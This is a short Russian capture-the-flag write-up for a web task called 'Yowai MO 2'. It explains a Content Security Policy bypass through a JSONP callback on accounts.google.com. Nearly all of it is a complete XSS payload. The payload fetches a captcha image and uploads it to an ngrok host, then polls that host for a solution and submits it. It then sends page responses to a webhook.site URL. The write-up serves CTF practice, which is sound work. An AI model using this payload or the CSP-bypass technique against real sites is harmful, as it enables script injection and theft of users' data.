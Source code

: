 # Yowai MO 2

На этой задаче разница с таском Yowai MO 1 в Content Security Policy, который разрешает грузить скрипты только с *.google.com

Можем использовать запрос `https://accounts.google.com/o/oauth2/revoke?callback=<SOME_PAYLOAD>`  который вернет наш пейлоад, для обхода CSP.
Итоговый пейлоад получается:

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=function log(text){var xhr0=new XMLHttpRequest();xhr0.open('GET','http://webhook.site/67ca4e8f-dc6c-4ec6-8f72-85998ef74a27?'%2btext,true);xhr0.send();};var xhr1=new XMLHttpRequest();xhr1.open('GET','/generate/captcha.png',true);xhr1.responseType='blob';xhr1.onload=function (){var reader=new FileReader();reader.onload=function (){var xhr2=new XMLHttpRequest();xhr2.open('POST','http://0.tcp.in.ngrok.io:17412/upload',true);xhr2.send(reader.result);setInterval(captcha_polling,3000);};reader.readAsDataURL(xhr1.response);};xhr1.send();function captcha_polling(){var xhr3=new XMLHttpRequest();xhr3.open('GET','http://0.tcp.in.ngrok.io:17412/captcha',true);xhr3.onreadystatechange=function (){if(xhr3.readyState==4){if(xhr3.response=='0')return;var captcha_solution=xhr3.response;var xhr4=new XMLHttpRequest();xhr4.open('POST','/validate-captcha',true);xhr4.onreadystatechange=function (){if(xhr4.readyState==4){var text=xhr4.response;log(%2bencodeURIComponent(captcha_solution)%2b''%2btext%2b''%2bxhr4.status);var xhr5=new XMLHttpRequest();xhr5.open('GET','/getWhatawant',true);xhr5.onreadystatechange=function (){log(xhr5.response)};xhr5.send();};};xhr4.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr4.send('captchaInput='%2bcaptcha_solution);};};xhr3.send();}"></script>
```